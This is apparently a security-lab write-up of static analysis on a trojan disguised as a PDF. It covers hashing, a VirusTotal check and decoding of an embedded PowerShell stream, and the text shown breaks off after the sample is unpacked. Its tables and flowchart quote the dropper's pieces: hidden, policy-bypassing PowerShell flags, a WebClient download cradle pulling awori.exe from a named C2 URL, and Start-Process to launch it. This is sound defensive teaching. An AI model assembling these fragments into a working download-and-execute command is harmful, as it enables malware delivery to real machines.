# 🪤 Malware Analysis: Trojan — Disguised PDF Dropper Static Triage Walkthrough



> **Lab Platform:** [INE Security](https://my.ine.com/course/malware-analysis-for-soc-analysts/2eabbb8c-ca60-4626-8953-c7af35401960/lab/b51b25bd-3017-46e8-ae66-f89022dc7fe6)  
> **Course:** Malware Analysis for SOC Analysts  
> **Lab Title:** Malware Analysis: Trojan  
> **Malware Classification:** Trojan Dropper / Weaponized PDF Document  
> **Target Sample:** `info.pdf` (unpacked from `info.zip`)  
> **Target Sample Hashes:**  
> - **MD5:** `e98b04a9d7092c424ae151e3c83ee302`  
> - **SHA256:** `4a9b5f939e6a0a03bbd3df243853ebf9aa0a1744b82bc03eb08f8705f1cfb385`  
> **Command & Control (C2) Server:** `http://ncdbuganda.org/.css/awori.exe`  
> **Dropped Secondary Payload:** `%APPDATA%\awori.exe`  
> **Analysis Environment:** REMnux v7.x Forensic Workstation (`https://remnux.ine.local:6901`), Debian Lab Bridge (`172.17.0.1:8000`)  
> **Analysis Tools:** `md5sum`, VirusTotal, `base64dump.py`, SciTE (Scintilla Text Editor), `iconv`, `base64`, Python (`trojan_static_triage.py`)  
> **Status:** 🏆 **100% Solved — Full Static Triage, PDF Stream Dissection, PowerShell Deobfuscation & Threat Attribution Completed**  
> **Automated Triage Script:** [`trojan_static_triage.py`](./trojan_static_triage.py)  

---

## 📑 Table of Contents
1. [Executive Summary & Quick Reference Matrix](#-executive-summary--quick-reference-matrix)
2. [REMNUX Forensic Architecture & Triage Pipeline Blueprint](#-remnux-forensic-architecture--triage-pipeline-blueprint)
3. [Weaponized PDF Attack Lifecycle & Dropper Flowchart](#-weaponized-pdf-attack-lifecycle--dropper-flowchart)
4. [Live Static Triage Demonstration (Animated GIF)](#-live-static-triage-demonstration)
5. [Lab Environment & Objective](#-lab-environment--objective)
6. [Automated Triage Script (`trojan_static_triage.py`)](#-automated-triage-script-trojan_static_triagepy)
7. [Step-by-Step Hands-on Analysis](#-step-by-step-hands-on-analysis)
   * [Step 1: Access the Debian Lab Machine](#step-1-access-the-debian-lab-machine)
   * [Step 2: Host the Malware Sample File via Python HTTP Server](#step-2-host-the-malware-sample-file-via-python-http-server)
   * [Step 3: Access and Authenticate to the REMnux Forensic Workstation](#step-3-access-and-authenticate-to-the-remnux-forensic-workstation)
   * [Step 4: Ingest and Unpack the Sample on REMnux](#step-4-ingest-and-unpack-the-sample-on-remnux)
   * [Step 5: In-Depth Static Analysis of `info.pdf`](#step-5-in-depth-static-analysis-of-infopdf)
     * [1. Cryptographic Hash Fingerprinting (`md5sum`)](#1-cryptographic-hash-fingerprinting-md5sum)
     * [2. Threat Intelligence Validation (VirusTotal Cloud Scan)](#2-threat-intelligence-validation-virustotal-cloud-scan)
     * [3. Base64 Encoded Stream Auditing (`base64dump.py`)](#3-base64-encoded-stream-auditing-base64dumppy)
     * [4. Decoding & Dissecting Stream Object ID 2](#4-decoding--dissecting-stream-object-id-2)
     * [5. Raw PDF Source Code Inspection with SciTE](#5-raw-pdf-source-code-inspection-with-scite)
     * [6. Deobfuscation & Secondary Payload Extraction (`base64` + `iconv`)](#6-deobfuscation--secondary-payload-extraction-base64--iconv)
8. [Comprehensive MITRE ATT&CK Mapping](#-comprehensive-mitre-attck-mapping)
9. [Extracted Indicators of Compromise (IOCs)](#-extracted-indicators-of-compromise-iocs)
10. [Defensive Engineering, Sigma Rules & YARA Signatures](#-defensive-engineering-sigma-rules--yara-signatures)
11. [Conclusion & Key Takeaways](#-conclusion--key-takeaways)
12. [References & Threat Intelligence Resources](#-references--threat-intelligence-resources)

---

## 🎯 Executive Summary & Quick Reference Matrix

In modern cyber attacks, adversary initial access frequently relies on deceptive trojans that masquerade as benign administrative, billing, or informational documents. Once opened by an unsuspecting user, these weaponized files execute covert scripts that bypass endpoint protection mechanisms, establish contact with remote command-and-control (C2) infrastructure, and silently download secondary malicious binaries.

In this incident response lab, we conducted comprehensive **static malware analysis** on a suspicious file masquerading as a legitimate Adobe PDF document (`info.pdf`). Utilizing the **REMnux** malware analysis distribution, we inspected the internal object streams without executing the payload on our analysis host. Through cryptographic hashing, VirusTotal threat intelligence correlation, Didier Stevens' `base64dump.py` stream inspection, raw text parsing in **SciTE**, and multi-stage UTF-16LE deobfuscation, we dismantled the attack chain and isolated the underlying PowerShell download cradle retrieving a secondary executable payload (`awori.exe`).

### 📊 Quick Triage & Artifact Matrix

| Attribute / Artifact | Forensic Value / Extraction | Context & Defensive Significance |
|---|---|---|
| **Primary Sample Name** | `info.pdf` (inside `info.zip`) | Disguised file weaponized to deceive end users |
| **MD5 Hash** | `e98b04a9d7092c424ae151e3c83ee302` | Unique forensic identifier; matched on VirusTotal |
| **Threat Classification** | Trojan.Downloader / Dropper | Flags across multiple Tier-1 commercial antivirus engines |
| **Primary Technique** | Embedded Base64 Object Stream | Bypasses perimeter static signature inspection (MITRE T1027) |
| **Stream Object ID** | Object 2 (280 bytes) | High-density stream containing PowerShell launch sequence |
| **Execution Command** | `powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden` | Bypasses local execution restriction policies and hides terminal window |
| **Encoding Format** | UTF-16LE (`iconv -f utf-16 -t utf-8`) | Standard Windows PowerShell `-EncodedCommand` Unicode serialization |
| **Download Cradle** | `(New-Object System.Net.WebClient).DownloadFile()` | Direct in-memory / script-driven HTTP GET binary transfer |
| **Remote Staging URL** | `http://ncdbuganda.org/.css/awori.exe` | Compromised or adversary-controlled web server hosting payload |
| **Target Drop Path** | `%APPDATA%\awori.exe` (`$env:APPDATA\awori.exe`) | Drops to writable user directory to bypass UAC requirements |
| **Payload Invocation** | `Start-Process ("$env:APPDATA\awori.exe")` | Activates secondary binary without requiring administrative escalation |

---

## 🏛️ REMNUX Forensic Architecture & Triage Pipeline Blueprint

The static analysis environment segregates the untrusted staging machine from the dedicated REMnux analysis sandbox. Telemetry, hashes, and deobfuscated payload indicators are parsed through a controlled multi-stage pipeline:



```
+---------------------------------------------------------------------------------------------------------+
|                                    STATIC FORENSIC TRIAGE WORKFLOW                                      |
+---------------------------------------------------------------------------------------------------------+
| [1. Staging Host (Debian)]                                                                              |
|      /home/ine/Desktop/Lab Resources/info.zip ---> Python3 HTTP Server (:8000)                          |
|                                                              |                                          |
|                                                              v (wget over Docker bridge: 172.17.0.1)    |
| [2. REMnux Analysis Sandbox (https://remnux.ine.local:6901)]                                           |
|      ├── Ingestion: unzip info.zip ===> info.pdf                                                        |
|      ├── Hash Verification: md5sum info.pdf ===> e98b04a9d7092c424ae151e3c83ee302                       |
|      ├── Threat Intel: VirusTotal Cloud Reputation Query ===> Trojan.Downloader Match                   |
|      ├── Stream Triage: base64dump.py info.pdf ===> Object 2 (280 bytes identified)                     |
|      ├── Raw PDF Inspection: SciTE Editor ===> Locates -EncodedCommand Base64 Blob                     |
|      └── Deobfuscation: echo "$B64" | base64 -d | iconv -f utf-16 -t utf-8                             |
|                                                              |                                          |
|                                                              v (Extracted C2 Indicators & Commands)     |
| [3. High-Fidelity Forensic Output]                                                                      |
|      ├── C2 URL: http://ncdbuganda.org/.css/awori.exe                                                   |
|      ├── Dropper Path: %APPDATA%\awori.exe                                                              |
|      └── Process Spawn: Start-Process $env:APPDATA\awori.exe                                            |
+---------------------------------------------------------------------------------------------------------+
```

---

## ⚡ Weaponized PDF Attack Lifecycle & Dropper Flowchart

The following diagram maps the sequential execution chain engineered by the adversary—from initial document delivery through stealthy payload activation:



```
[Phase 1: Masquerading (T1036.008)]
      │  Adversary crafts weaponized PDF "info.pdf" masquerading as legitimate documentation.
      ▼
[Phase 2: Encoded Stream Delivery (T1027)]
      │  Base64-encoded UTF-16LE payload embedded within PDF stream objects to defeat AV scanners.
      ▼
[Phase 3: Defense Evasion & Execution (T1059.001 / T1564.003)]
      │  PDF spawns powershell.exe with flags:
      │  -ExecutionPolicy bypass  --> Evades PowerShell script restrictions
      │  -noprofile               --> Prevents profile telemetry / customization loading
      │  -windowstyle hidden      --> Conceals console window from end user
      ▼
[Phase 4: Ingress Tool Transfer (T1105)]
      │  PowerShell WebClient issues HTTP GET request to remote C2:
      │  URL: http://ncdbuganda.org/.css/awori.exe
      │  Writes payload directly to: %APPDATA%\awori.exe
      ▼
[Phase 5: Secondary Payload Execution (T1204.002)]
         Start-Process launches awori.exe within user context, completing trojan deployment.
```

---

## 🎬 Live Static Triage Demonstration

The animated demonstration below showcases the full terminal workflow on the REMnux workstation—from initial hash computation to automated deobfuscation and script-assisted threat reporting:



---

## 🔬 Lab Environment & Objective

* **Host Machine:** Debian Linux workstation containing sample staging directory at `/home/ine/Desktop/Lab Resources`.
* **Forensic Workstation:** REMnux v7.x (Reverse Engineering Malware Linux distribution) accessible via secure KasmVNC browser interface at `https://remnux.ine.local:6901`.
* **Credentials:**
  * **Username:** `kasm_user`
  * **Password:** `password`
* **Objective:** Perform static analysis on the suspicious sample `info.pdf` within REMnux to uncover hidden malicious behaviors, extract embedded scripts, decode obfuscated instructions, identify C2 indicators, and determine the trojan's primary objective without executing the malware.

---

## 🛠️ Automated Triage Script (`trojan_static_triage.py`)

To standardize and accelerate forensic triage for disguised documents and embedded Base64 streams across enterprise incident response operations, we authored a dedicated Python triage engine: [`trojan_static_triage.py`](./trojan_static_triage.py).

### Script Capabilities:
1. **Cryptographic Fingerprinting:** Computes MD5, SHA1, and SHA256 hashes concurrently.
2. **Shannon Entropy Calculation:** Measures structural randomness to detect packed or encrypted sections.
3. **PDF Object & Stream Audit:** Scans for standard PDF headers, stream counts, and suspicious object tags (`/Launch`, `/OpenAction`, `/JavaScript`, `/EmbeddedFiles`).
4. **Automated Base64 Candidate Detection:** Automatically extracts Base64 segments, attempts UTF-16LE and UTF-8 decoding, and isolates PowerShell `-EncodedCommand` structures.
5. **C2 & Download Cradle Parsing:** Extracts URLs, IP addresses, target drop paths (`$env:APPDATA`), and execution flags (`-ExecutionPolicy bypass`, `-windowstyle hidden`).
6. **MITRE ATT&CK Matrix Correlation:** Automatically maps all extracted artifacts to corresponding enterprise tactics and techniques.
7. **JSON Export Support:** Outputs forensic findings to structured JSON files for ingestion into SIEM / SOAR platforms.

### Execution Syntax:
```bash
# Standard terminal execution
python3 trojan_static_triage.py info.pdf

# Export structured findings to JSON
python3 trojan_static_triage.py info.pdf --export triage_report.json
```

---

## 📖 Step-by-Step Hands-on Analysis

### Step 1: Access the Debian Lab Machine

Access the primary Debian workstation provided in the lab environment. This machine contains the initial staging resources and serves as the network bridge to access the isolated REMnux forensic workstation.



---

### Step 2: Host the Malware Sample File via Python HTTP Server

The suspicious malware sample is located in the user's desktop directory. To safely transfer the sample to the REMnux workstation without physical media or shared drives, we host it over a temporary HTTP server.

Open the terminal on the Debian machine and navigate to the sample directory:
```bash
cd Desktop/Lab\ Resources
ls -l
```



The directory contains `info.zip`. Start a lightweight Python 3 HTTP server listening on port `8000`:
```bash
python3 -m http.server 8000
```



> [!NOTE]
> The Python HTTP server binds to all available interfaces (`0.0.0.0:8000`), allowing the REMnux virtual environment to download the file over the internal Docker network.

---

### Step 3: Access and Authenticate to the REMnux Forensic Workstation

Open **Google Chrome** on the Debian machine and navigate to the REMnux web console:
```
https://remnux.ine.local:6901
```

A TLS certificate warning will appear due to the self-signed certificate used by KasmVNC. Click **Advanced** and select **Proceed to remnux.ine.local (unsafe)**.



Authenticate using the provided analyst credentials:
* **Username:** `kasm_user`
* **Password:** `password`



Upon authentication, the REMnux forensic desktop environment loads inside the browser session.



---

### Step 4: Ingest and Unpack the Sample on REMnux

To determine the host machine's IP address on the internal container network, switch back to the Debian terminal and check network interfaces:
```bash
ifconfig
```



The internal gateway IP address is identified as `172.17.0.1`.

On the REMnux desktop, open the terminal application and retrieve the archived sample using `wget`:
```bash
wget http://172.17.0.1:8000/info.zip
ls -l
```



Decompress the ZIP archive to extract the target payload:
```bash
unzip info.zip
ls -l
```



The unpacked file appears with a `.pdf` extension: `info.pdf`. Attackers routinely use document extensions to entice victims into double-clicking, expecting a PDF reader to launch.

---

